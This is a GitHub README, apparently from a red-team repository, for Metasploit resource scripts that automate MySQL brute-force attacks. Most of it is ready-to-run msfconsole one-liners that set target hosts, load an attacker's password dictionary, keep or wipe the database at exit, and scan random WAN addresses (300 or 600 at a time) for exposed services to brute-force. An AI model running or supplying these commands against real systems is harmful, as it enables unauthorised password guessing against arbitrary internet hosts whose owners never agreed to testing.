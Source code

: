 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource scripts in 3 diferent ways:

- execute resource script (default).<br />
**[ Local lan scan: 192.168.1.0/24 ]**

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker<br />
**[ Attacker input scan: 10.10.10.1 10.10.11.2 ]**

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open<br />
**[ Random scan: WAN for rhosts ]**

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### FINAL NOTES:

- The msfconsole database must be empty (**clean**) at resource script execution.<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />
- The best technic to use brute force scripts its to:<br />
`msfconsole -q -x 'hosts -d;services -d;resource /root/<resource_script_name>.rc`<br /><br />
- Brute force resource scripts will build one logfile in /root directory.<br />
`/root/<resource_script_name>.log`<br /><br />
- Brute force resource scripts deletes msfconsole database at exit (default).<br />
`msfconsole -q -x 'setg CLEAN false;resource /root/<resource_script_name>.rc'`<br />
**The above command instruct the rc script to not delete database at exit**<br /><br />

### Suspicious Shell Activity RedTeam @2019

<br />

